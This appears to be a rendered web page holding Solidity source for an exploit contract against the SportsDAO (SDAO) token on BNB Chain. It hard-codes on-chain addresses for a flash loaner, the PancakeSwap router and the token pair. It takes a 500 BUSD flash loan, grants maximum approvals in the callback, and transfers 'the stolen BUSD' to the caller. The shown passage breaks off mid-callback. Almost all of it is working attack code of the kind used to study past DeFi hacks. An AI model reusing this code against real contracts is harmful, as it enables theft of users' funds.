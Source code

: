 contract SportsDAOAttack {
  IFlashLoaner flashLoaner = IFlashLoaner(<span style="color:rgb(245, 135, 31); font-weight:400;">0x26d0c625e5F5D6de034495fbDe1F6e9377185618</span>);
  IPancakeRouter router = IPancakeRouter(<span style="color:rgb(245, 135, 31); font-weight:400;">0x10ED43C718714eb63d5aA57B78B54704E256024E</span>);
  IBEP20 busd = IBEP20(<span style="color:rgb(245, 135, 31); font-weight:400;">0x55d398326f99059fF775485246999027B3197955</span>);
  IBEP20 sdao = IBEP20(<span style="color:rgb(245, 135, 31); font-weight:400;">0x6666625Ab26131B490E7015333F97306F05Bf816</span>);
  IBEP20 wbnb = IBEP20(<span style="color:rgb(245, 135, 31); font-weight:400;">0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c</span>); <span style="color:rgb(142, 144, 140); font-weight:400;">// Technically not IBEP20</span>
  IBEP20Pair busdsdao = IBEP20Pair(<span style="color:rgb(245, 135, 31); font-weight:400;">0x333896437125fF680f146f18c8A164Be831C4C71</span>);

  <span style="color:rgb(77, 77, 76); font-weight:400;"><span style="color:rgb(137, 89, 168); font-weight:400;">function</span> <span style="color:rgb(66, 113, 174); font-weight:400;">exploit</span>(<span style="color:rgb(245, 135, 31); font-weight:400;"></span>) <span style="color:rgb(66, 113, 174); font-weight:400;">public</span> </span>{
    <span style="color:rgb(142, 144, 140); font-weight:400;">// Get the flashloan of 500 BUSD, calls `DPPFlashLoanCall()`</span>
    <span style="color:rgb(245, 135, 31); font-weight:400;">console</span>.log(<span style="color:rgb(113, 140, 0); font-weight:400;">&#x27;BUSD balance before attack: &#x27;</span>, busd.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)) / <span style="color:rgb(245, 135, 31); font-weight:400;">1</span> ether);
    flashLoaner.flashLoan(<span style="color:rgb(245, 135, 31); font-weight:400;">0</span>, <span style="color:rgb(245, 135, 31); font-weight:400;">500</span> ether, address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>), <span style="color:rgb(113, 140, 0); font-weight:400;">&#x27;A&#x27;</span>);
    <span style="color:rgb(245, 135, 31); font-weight:400;">console</span>.log(<span style="color:rgb(113, 140, 0); font-weight:400;">&#x27;BUSD balance after attack: &#x27;</span>, busd.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)) / <span style="color:rgb(245, 135, 31); font-weight:400;">1</span> ether);

    <span style="color:rgb(142, 144, 140); font-weight:400;">// Transfer all the stolen BUSD to ourselves</span>
    busd.transfer(msg.sender, busd.balanceOf(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>)));
  }

  <span style="color:rgb(77, 77, 76); font-weight:400;"><span style="color:rgb(137, 89, 168); font-weight:400;">function</span> <span style="color:rgb(66, 113, 174); font-weight:400;">DPPFlashLoanCall</span>(<span style="color:rgb(245, 135, 31); font-weight:400;">
    address,
    uint256,
    uint256,
    bytes calldata
  </span>) <span style="color:rgb(66, 113, 174); font-weight:400;">public</span> </span>{
    <span style="color:rgb(142, 144, 140); font-weight:400;">// Required approvals</span>
    busd.approve(address(router), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
    sdao.approve(address(router), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
    sdao.approve(address(<span style="color:rgb(245, 135, 31); font-weight:400;">this</span>), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max); <span style="color:rgb(142, 144, 140); font-weight:400;">// Required for transferFrom</span>
    wbnb.approve(address(router), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
    busdsdao.approve(address(router), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
    busdsdao.approve(address(sdao), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
    busdsdao.approve(address(busd), <span style="color:rgb(137, 89, 168); font-weight:400;">type</span>(uint256).max);
